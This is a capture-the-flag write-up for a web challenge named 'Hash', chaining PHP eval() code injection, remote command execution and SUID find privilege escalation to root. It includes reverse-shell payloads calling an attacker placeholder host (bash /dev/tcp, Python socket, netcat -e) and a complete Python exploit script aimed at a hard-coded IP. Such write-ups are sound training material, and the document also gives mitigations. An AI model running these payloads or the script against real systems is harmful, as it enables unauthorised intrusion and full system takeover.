








# Hash - Web CTF Challenge Writeup

## Challenge Information

| Field | Value |
|-------|-------|
| **Challenge Name** | Hash |
| **Category** | Web |
| **Author** | [Orbis](https://www.linkedin.com/in/abdulrahman-almaslamani-1ab286218/) |
| **Difficulty** | Hard |
| **Target** | http://84.247.129.120:44440 |

---

## Initial Reconnaissance

### First Contact

The application presented a simple web form that calculates MD5 hashes of files given their path.

Testing basic functionality:

```http
POST / HTTP/1.1
Host: 84.247.129.120:44440
Content-Type: application/x-www-form-urlencoded

filepath=/etc/passwd
```

**Response:**
```
MD5 hash of the file: f54f0b2ec2cca536f46a10535bdb047c
```

✅ **Local File Inclusion (LFI) confirmed** - The application can read arbitrary files.

### Discovering Hidden Endpoints

Inspecting the HTML source revealed two commented endpoints:
```html
<!-- /log.php -->
<!-- /fake.php -->
```

**`/log.php` revealed:**
```
Log Entry 1: Hashing operation for /flag.txt completed successfully.
```

🔍 **Key insight:** `/flag.txt` exists and is readable by the application!

**`/fake.php` showed:**
```
Test Entry 5: Error reading file '/flag.txt': Permission denied.
```

This was misleading - suggesting permission issues, but it was just a decoy.

---

## The Turning Point - Finding the Vulnerability

### Initial Hypothesis

My first thought was: "If I can read `/etc/passwd`, can I read `/flag.txt`?"

```
filepath=/flag.txt
```

**Result:** Got an MD5 hash, but that doesn't give me the flag content. I needed a different approach.

### Analyzing Application Behavior

I tested various edge cases to understand how the application processes input:

**Test 1: Non-existent file**
```
filepath=/nonexistent
```
Response: Error message about file not found

**Test 2: Special characters**
```
filepath=/etc/passwd"
```
Response: Still worked, just added `"` to the path

**Test 3: Command injection attempt**
```
filepath=/etc/passwd; whoami
```
Response: File not found (treating entire string as filename) **THIS WAS INTERESTING!**

**Test 4: Breaking out of the string context**
```
filepath=test"); echo "INJECTED"; //
```

**BOOM!** The word "INJECTED" appeared on the page!



### Understanding the Vulnerability

At this point, I realized the application likely uses `eval()` or similar dynamic code execution. The vulnerable code structure probably looks like:

```php
$eval_code = '$result = md5_file("' . $file . '");';
eval($eval_code);
```

My payload transformed it into:
```php
$result = md5_file("test"); echo "INJECTED"; //");
```

The `//` comments out the trailing `");`, preventing syntax errors.

**This is Remote Code Execution (RCE) via unsafe `eval()` usage!**

---

## Exploitation Phase

### Confirming Command Execution

Testing system command execution:
```
filepath=hello"); echo shell_exec("whoami"); //
```

**Output:** `www-data`



✅ I could execute arbitrary system commands!

### Enumerating the System

**Checking my privileges:**
```
filepath=hello"); echo shell_exec("id"); //
```

**Output:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`


**Finding the flag:**
```
filepath=hello"); echo shell_exec("find / -maxdepth 3 -type f -iname '*flag*' 2>/dev/null"); //
```

**Output:**
```
/proc/kpageflags
/root/flag.txt
/usr/bin/dpkg-buildflags
```



**Attempting to read it:**
```
filepath=hello"); echo shell_exec("cat /root/flag.txt"); //
```

**Result:** Empty output - permission denied (www-data can't read `/root/`)



I needed privilege escalation.

---

## Establishing a Reverse Shell

Running commands through web requests one at a time is inefficient. I needed an interactive shell.

### Setting Up the Listener

On my attack machine:
```bash
nc -lvnp 8000
```

### Sending the Reverse Shell Payload

```
filepath=hello"); shell_exec("bash -c 'bash -i >& /dev/tcp/YOUR_IP/8000 0>&1'"); //
```

🎉 **Connection received!**

```
Listening on 0.0.0.0 8000
Connection received on 84.247.129.120 54596
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@aa416c2c80bb:/var/www/html$
```



### Upgrading to a Fully Interactive Shell

The initial shell was basic - no tab completion, no Ctrl+C, limited functionality. I upgraded it:

**On the target:**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Then pressed Ctrl+Z to background the shell**

**On my machine:**
```bash
stty raw -echo; fg
```

**Pressed Enter twice, then on target:**
```bash
export TERM=xterm
export SHELL=/bin/bash
```

Now I had a proper interactive shell with all features!



---

## Enumeration & Privilege Escalation

### System Information

```bash
www-data@aa416c2c80bb:/var/www/html$ uname -a
Linux aa416c2c80bb 6.8.0-86-generic #87-Ubuntu SMP x86_64 GNU/Linux

www-data@aa416c2c80bb:/var/www/html$ cat /etc/issue
Debian GNU/Linux 11

www-data@aa416c2c80bb:/var/www/html$ hostname
aa416c2c80bb
```

🐳 The hostname pattern suggests I'm inside a Docker container.



### Searching for Privilege Escalation Vectors

**Checking for sudo:**
```bash
www-data@aa416c2c80bb:/var/www/html$ sudo -l
bash: sudo: command not found
```

No sudo available.

**Checking for SUID binaries:**
```bash
www-data@aa416c2c80bb:/var/www/html$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/find
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/bin/umount
/bin/mount
/bin/su
```

🎯 **Critical finding:** `/usr/bin/find` has the SUID bit set!

```bash
www-data@aa416c2c80bb:/var/www/html$ ls -la /usr/bin/find
-rwsr-xr-x 1 root root 311008 Jan  9  2021 /usr/bin/find
```

The `s` in the permissions means it runs with root privileges.

### Exploiting SUID Find

Using the technique from GTFOBins:

```bash
www-data@aa416c2c80bb:/var/www/html$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

🎉 **Root access achieved!**



**Explanation of the exploit:**
- `find .` - Search in current directory
- `-exec /bin/sh -p \;` - Execute a shell
- `-p` flag preserves SUID privileges (critical!)
- `-quit` - Exit after first execution

---

## Capturing the Flag

```bash
# cd /root
# ls
flag.txt
# cat flag.txt
flag{md5_exploit_success_xd_no_way_right!!}
```

✅ **Flag captured!**


---

## Complete Attack Chain

1. **Initial Recon**
   - Tested `/etc/passwd` → Confirmed LFI
   - Found hidden endpoints (`/log.php`, `/fake.php`)
   - Identified `/flag.txt` exists but need root access

2. **Vulnerability Discovery**
   - Tested string manipulation in filepath parameter
   - Discovered code injection: `test"); echo "INJECTED"; //`
   - Identified unsafe `eval()` usage

3. **Remote Code Execution**
   - Payload: `hello"); echo shell_exec("whoami"); //`
   - Confirmed command execution as www-data

4. **Reverse Shell Establishment**
   - Set up nc listener on port 8000
   - Payload: `hello"); shell_exec("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/8000 0>&1'"); //`
   - Received connection

5. **Shell Stabilization**
   - Upgraded using Python PTY module
   - Full interactive TTY with job control

6. **Privilege Escalation Research**
   - Enumerated SUID binaries
   - Found `/usr/bin/find` with SUID bit
   - Consulted GTFOBins for exploitation

7. **Root Access**
   - Exploited SUID find: `find . -exec /bin/sh -p \; -quit`
   - Spawned root shell

8. **Flag Capture**
   - Read `/root/flag.txt`
   - `flag{md5_exploit_success_xd_no_way_right!!}`

---

## Root Cause Analysis

### The Vulnerability

While I didn't have direct access to the source code during the challenge, the behavior strongly indicated code similar to:

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $file = $_POST['filepath'] ?? '/flag.txt';
    
    // VULNERABLE: Unsanitized input in eval()
    $eval_code = '$result = md5_file("' . $file . '");';
    eval($eval_code);
    
    if (isset($result)) {
        echo "MD5 hash: " . $result;
    }
}
?>
```

**The problem:** User input is directly concatenated into code executed by `eval()`.

### Why This Is Dangerous

**Normal input:** `/etc/passwd`
```php
eval('$result = md5_file("/etc/passwd");');  // Works as intended
```

**Malicious input:** `test"); system("whoami"); //`
```php
eval('$result = md5_file("test"); system("whoami"); //");');
// Executes: md5_file("test"), then system("whoami"), then comments out the rest
```

---

## Mitigation Strategies

### For This Specific Vulnerability

**❌ Bad (Current):**
```php
$eval_code = '$result = md5_file("' . $file . '");';
eval($eval_code);
```

**✅ Good:**
```php
// Direct function call - no eval needed
$result = md5_file($file);
```

**✅ Better:**
```php
// Input validation with whitelist
$allowed_paths = [
    '/etc/passwd',
    '/tmp/test.txt'
];
if (!in_array($file, $allowed_paths, true)) {
    die("Invalid file path");
}
$result = md5_file($file);
```

**✅ Best:**
```php
// Whitelist + path traversal prevention
$allowed_paths = ['/etc/passwd', '/tmp/test.txt'];
if (!in_array($file, $allowed_paths, true)) {
    die("Invalid file path");
}
// Resolve real path to prevent traversal
$real_path = realpath($file);
if ($real_path === false || !in_array($real_path, $allowed_paths, true)) {
    die("Invalid file path");
}
$result = md5_file($real_path);
```

### SUID Binary Hardening

```bash
# Remove unnecessary SUID bit
chmod u-s /usr/bin/find

# Audit all SUID binaries
find / -perm -4000 -type f 2>/dev/null
```

---

## Key Lessons

### For Developers

- ❌ **Never use `eval()` with user input** - It's almost never necessary
- ✅ **Input validation is mandatory** - Whitelist allowed values
- ✅ **Principle of least privilege** - Why does find need SUID?
- ✅ **Error reporting in production** - `error_reporting(0)` hides vulnerabilities during testing

### For Penetration Testers

- 🔍 **Test string context escaping** - Try breaking out with `"`, `'`, `;`
- 🔍 **Look for dynamic code execution** - `eval()`, `exec()`, `system()`
- 🔍 **Always enumerate SUID binaries** - They're privilege escalation goldmines
- 🔍 **GTFOBins is essential** - Memorize common SUID exploits
- 🔍 **Upgrade your shells** - Full TTY makes post-exploitation much easier

---

## Alternative Exploitation Methods

### Method 1: Direct Flag Reading (No Shell Needed)
```
filepath=hello"); echo shell_exec("find /root/flag.txt -exec cat {} \\;"); //
```
This uses the SUID find to read the flag directly through the web interface.

### Method 2: Python Reverse Shell
```
filepath=hello"); shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])'"); //
```

### Method 3: Netcat Reverse Shell
```
filepath=hello"); shell_exec("nc ATTACKER_IP 8000 -e /bin/bash"); //
```

---

## Tools Used

- **Burp Suite** - HTTP request manipulation and testing
- **Netcat** - Reverse shell listener
- **Python** - Shell stabilization (PTY module)
- **GTFOBins** - SUID exploitation reference

---

## Timeline

| Time | Action |
|------|--------|
| T+00:00 | Initial recon, tested `/etc/passwd` LFI |
| T+00:05 | Discovered `/log.php` and `/fake.php` |
| T+00:10 | Tested various injection payloads |
| T+00:15 | Confirmed RCE with `test"); echo "INJECTED"; //` |
| T+00:20 | Established reverse shell |
| T+00:25 | Upgraded to full TTY |
| T+00:30 | Enumerated system for privesc vectors |
| T+00:35 | Found SUID find binary |
| T+00:40 | Escalated to root via SUID exploit |
| T+00:45 | Captured flag |

**Total Time:** ~45 minutes

---

## Proof of Concept Script

```python
#!/usr/bin/env python3
"""
Hash CTF Challenge Exploit (values-only extractor)
This version extracts only the meaningful values from the HTML response
(e.g. flag{...} or file lines) and prints them cleanly.
"""
import requests
import sys
import re
from urllib.parse import quote

TARGET = "http://84.247.129.120:44440/"


def exploit(payload):
    data = {"filepath": payload}
    try:
        r = requests.post(TARGET, data=data, timeout=10)
        return r.text
    except Exception as e:
        print(f"[-] Error: {e}")
        return None


def strip_tags(html: str) -> str:
    # remove style/script blocks first
    html = re.sub(r"(?is)<(script|style).*?>.*?</\1>", "", html)
    # extract container if present
    m = re.search(r'<div[^>]*class="container"[^>]*>(.*?)</div>', html, re.S | re.I)
    if m:
        html = m.group(1)
    # remove all HTML tags
    text = re.sub(r"<[^>]+>", "", html)
    # decode common HTML entities (basic)
    text = text.replace('&lt;', '<').replace('&gt;', '>').replace('&amp;', '&')
    # normalize whitespace
    lines = [line.strip() for line in text.splitlines()]
    lines = [l for l in lines if l]
    return "\n".join(lines)


def extract_values(html: str):
    clean = strip_tags(html)
    # 1) Look for explicit flag patterns
    flags = re.findall(r'flag\{.*?\}', clean, re.I)
    if flags:
        return flags
    # 2) Otherwise return reasonable lines (e.g. /etc/passwd lines or file output)
    lines = clean.splitlines()
    # Filter out UI text that commonly appears in the page
    exclude_patterns = [r"md5 file", r"enter the file path", r"hash file", r"failed to open stream", r"md5_file\("]
    filtered = []
    for L in lines:
        if any(re.search(pat, L, re.I) for pat in exclude_patterns):
            continue
        # keep lines that look like file contents: either contain ':' (passwd-like),
        # look like flag{...}, or are non-trivial short strings
        if ':' in L or re.search(r'flag\{', L, re.I) or len(L) > 3:
            filtered.append(L)
    # deduplicate while preserving order
    seen = set()
    out = []
    for l in filtered:
        if l not in seen:
            seen.add(l)
            out.append(l)
    return out or [clean]


def test_rce():
    print("[*] Testing for RCE...")
    payload = 'test"); echo "RCE_CONFIRMED"; //'
    result = exploit(payload)
    if result and "RCE_CONFIRMED" in result:
        print("[+] RCE confirmed!")
        return True
    print("[-] RCE test failed")
    return False


def get_reverse_shell(lhost, lport):
    payload = f'x"); shell_exec("bash -c \'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\' "); //'
    print(f"[*] Sending reverse shell to {lhost}:{lport}")
    print(f"[!] Make sure listener is running: nc -lvnp {lport}")
    exploit(payload)


def read_file_direct(filepath):
    payload = f'x"); echo shell_exec("find {filepath} -exec cat {{}} \\\\; 2>/dev/null"); //'
    print(f"[*] Attempting to read: {filepath}")
    result = exploit(payload)
    if not result:
        print("[-] No response")
        return
    vals = extract_values(result)
    for v in vals:
        print(v)


def php_single_quote_escape(s: str) -> str:
    """Escape a string so it can be safely placed inside a PHP single-quoted string.

    Replaces backslashes with double-backslashes and single quotes with \\' so the
    payload remains syntactically valid when injected into shell_exec('...').
    """
    return s.replace('\\', '\\\\').replace("'", "\\'")


def exec_command(cmd: str):
    """Execute an arbitrary command on the target via shell_exec and print output."""
    if not cmd:
        print("[-] No command specified")
        return
    print(f"[*] Executing remote command: {cmd}")
    # Escape for PHP single-quoted string
    esc = php_single_quote_escape(cmd)
    payload = f"x\"); echo shell_exec('{esc}'); //"
    result = exploit(payload)
    if not result:
        print("[-] No response")
        return
    vals = extract_values(result)
    for v in vals:
        print(v)


if __name__ == "__main__":
    print("=" * 60)
    print("Hash CTF Challenge Exploit (values-only)")
    print("=" * 60)

    if len(sys.argv) < 2:
        print("Usage:")
        print(f"  {sys.argv[0]} test              # Test for RCE")
        print(f"  {sys.argv[0]} shell IP PORT    # Get reverse shell")
        print(f"  {sys.argv[0]} read /path/file  # Read file directly and print values")
        print(f"  {sys.argv[0]} exec <command>   # Execute arbitrary command and print output")
        sys.exit(1)

    command = sys.argv[1]

    if command == "test":
        test_rce()
    elif command == "shell" and len(sys.argv) == 4:
        get_reverse_shell(sys.argv[2], sys.argv[3])
    elif command == "read" and len(sys.argv) == 3:
        read_file_direct(sys.argv[2])
    elif command == "exec" and len(sys.argv) >= 3:
        exec_command(' '.join(sys.argv[2:]))
    else:
        print("[-] Invalid command")
```

### Usage:

```bash
# Test for RCE
python3 exploit.py test

# Get reverse shell (start listener first: nc -lvnp 8000)
python3 exploit.py shell YOUR_IP 8000

# Read flag directly
python3 exploit.py read /root/flag.txt
```

---

## Conclusion

This challenge demonstrated a complete web exploitation chain from code injection through privilege escalation. The combination of unsafe `eval()` usage and SUID misconfiguration created a critical security vulnerability allowing full system compromise.

### Key Takeaways:
- `eval()` with user input = instant RCE
- Always enumerate SUID binaries in Linux
- Shell stabilization improves post-exploitation workflow
- Defense in depth could have prevented full compromise

Thanks to the challenge author for creating this excellent learning experience!

**Flag:** `flag{md5_exploit_success_xd_no_way_right!!}`

---

